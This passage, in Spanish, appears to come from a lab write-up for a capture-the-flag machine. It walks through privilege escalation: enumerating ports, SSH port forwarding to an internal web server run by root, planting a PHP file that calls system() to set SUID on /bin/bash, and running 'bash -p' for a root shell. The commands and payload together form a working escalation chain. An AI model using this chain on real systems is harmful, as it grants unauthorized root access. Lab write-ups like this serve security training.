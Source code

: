 **Acción:** listamos servicios en ejecución y vemos que internamente se ejecuta un servidor web por el puerto 8080 interno de la máquina

```bash
ss -nltp
```

**Resultado:**

```bash
State        Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       Process       
LISTEN       0             4096                     127.0.0.1:8080                    0.0.0.0:*                        
LISTEN       0             4096                 127.0.0.53%lo:53                      0.0.0.0:*                        
LISTEN       0             128                        0.0.0.0:22                      0.0.0.0:*                        
LISTEN       0             511                              *:80                            *:*                        
LISTEN       0             128                           [::]:22                         [::]:* 
```

**Acción:** con port forwarding hacemos que nuestro puerto 8080 sea el puerto 8080 de la máquina para así poder visualizar desde nuestro PC atacante el servidor web

```bash
ssh albert@10.10.11.44 -L 8080:127.0.0.1:8080
```

Podemos ver la web en ejecución:

![Captura](./Imágenes/web_4.png)

En las carpetas listadas tenemos una que se llama `monitors`, dentro contiene dos archivos que podemos editar que son como mensajes de alerta. Si vamos al endpoint que indica la ubicación de ficheros, vemos que efectivamente se ejecuta el mismo contenido que podemos ver desde el sistema pero en el navegador.

```
http://localhost:8080/monitors/alert.htb
```

Con esto, y viendo que el propietario de este servidor web es root pero nosotros tenemos capacidad de escritura, podemos tratar de modificar los permisos de la `/bin/bash` de root y así elevar nuestros privilegios.

**Acción:** creamos un archivo `.php` con el siguiente contenido. Vamos a la URL donde generamos el archivo que modifica los permisos a SUID de la `bash` de root. Nos lanzamos una bash privilegiada sin contraseña y, como se han modificado los permisos de la bash de root, logramos elevar privilegios. Ahora podemos visualizar la flag del laboratorio para finalizar el ejercicio.

```php
<?php system("chmod u+s /bin/bash"); ?>
```

```
http://localhost:8080/monitors/test.php
```

```bash
bash -p
```

---